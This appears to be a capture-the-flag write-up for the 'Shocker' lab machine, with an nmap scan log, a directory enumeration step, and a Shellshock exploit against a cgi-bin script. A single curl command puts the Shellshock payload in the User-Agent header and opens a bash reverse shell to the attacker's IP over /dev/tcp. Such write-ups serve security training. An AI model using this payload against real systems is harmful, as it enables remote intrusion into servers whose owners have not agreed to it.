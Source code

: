 # shocker

## nmap scan
```log
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-15 05:50 EDT
Nmap scan report for 10.10.10.56
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   123.93 ms 10.10.16.1
2   206.08 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.51 seconds

```


## web page
![screen](Pasted image 20210715105154.png)
![screen](Pasted image 20210715105217.png)

## directory enumeration
![screen](Pasted image 20210715122218.png)

Found a `cgi-bin` folder, maybe its vulnerable to shellshock
('maybe' ? its literally the name of the machine `shock`)

anyway let's enumerate the files insides the folder.

![screen](Pasted image 20210715122453.png)
Found `user.sh` file, let's exploit it

The command I used:
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.63/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
```

Got the shell :
![screen](Pasted image 20210715122748.png)

## Privilege escalation
### shell stabilization
![screen](Pasted image 20210715123008.png)
![screen](Pasted image 20210715123130.png)